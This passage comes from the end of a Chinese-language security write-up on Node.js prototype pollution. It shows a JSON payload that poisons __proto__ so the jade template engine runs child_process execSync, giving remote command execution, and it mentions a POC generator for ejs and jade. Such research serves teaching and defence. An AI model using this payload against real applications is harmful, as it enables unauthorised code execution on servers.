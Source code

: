 然后就可以返回 buf 部分进行命令执行

```
`{`"__proto__":`{`"__proto__": `{`"type":"Code","compileDebug":true,"self":true,"line":"0, \"\" ));return global.process.mainModule.constructor._load('child_process').execSync('dir');//"`}``}``}`
```

原型链污染成功

[![](https://p3.ssl.qhimg.com/t018c3914e1545c44a2.png)](https://p3.ssl.qhimg.com/t018c3914e1545c44a2.png)

**补充: **针对 jade RCE链的污染, 普通的模板可以只需要污染 self 和 line, 但是有继承的模板还需要污染 type



## 小结

关于 ejs 和 jade 模板的语句拼接, 官方承认不是一个漏洞, 原型链的危害很大, 但是原型链污染攻击有个弊端，就是一旦污染了原型链，除非整个程序重启，否则所有的对象都会被污染与影响!

写了个简单的 POC 生成脚本, 直接生成两个模板引擎的 POC, 上传到了[github](https://github.com/Ricky-369369/Ricky.github.io/blob/main/nodejs/nodejs.py)

感谢各位读者可以耐心地读到这里, 希望您对原型链污染有了更深刻的认识, 可能还有遗漏的, 希望各位师傅踊跃提出!

